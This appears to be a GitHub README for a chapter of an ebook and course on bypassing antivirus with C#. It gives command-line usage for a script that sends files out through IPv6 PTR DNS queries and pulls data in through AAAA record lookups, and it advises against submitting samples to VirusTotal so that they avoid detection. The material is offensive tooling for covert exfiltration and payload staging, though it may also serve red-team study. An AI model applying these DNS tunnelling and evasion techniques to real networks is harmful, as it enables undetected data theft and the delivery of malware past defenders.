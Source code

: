 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 1 for chapter 6: 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server

# Using IPv6 PTR Queries for Exfil/Upload DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-PTR.png)

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query

# Using IPv6 AAAA Records for Infil/Download DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-AAAA.png)


